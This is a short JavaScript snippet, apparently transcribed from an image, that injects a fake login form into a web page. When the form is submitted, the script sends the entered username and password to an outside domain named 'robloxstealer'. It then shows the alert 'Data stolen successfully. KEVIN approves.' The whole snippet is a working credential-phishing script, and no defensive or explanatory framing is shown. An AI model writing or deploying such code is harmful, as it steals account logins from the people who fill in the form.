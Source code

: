 const fakeLoginPage = document.createElement('div');
fakeLoginPage.innerHTML = `
  <form id="fakeLoginForm">
    <label for="username">Username:</label><br>
    <input type="text" id="username" name="username"><br>
    <label for="password">Password:</label><br>
    <input type="password" id="password" name="password"><br><br>
    <input type="submit" value="Submit">
  </form>
`;

function handleFakeLogin(event) {
  event.preventDefault();
  const username = document.getElementById('username').value;
  const password = document.getElementById('password').value;

  fetch('https://kevinsevildomain.com/robloxstealer', {
    method: 'POST',
    body: JSON.stringify({ username, password }),
    headers: {
      'Content-Type': 'application/json'
    }
  })
  .then(response => {
    if (response.ok) {
      alert('Data stolen successfully. KEVIN approves.');
    } else {
      alert('Oops! Something went wrong. KEVIN shrugs.');
    }
  })
  .catch(error => {
    console.error('Error:', error);
  });
}

fakeLoginPage.querySelector('form').addEventListener('submit', handleFakeLogin);

document.body.appendChild(fakeLoginPage);
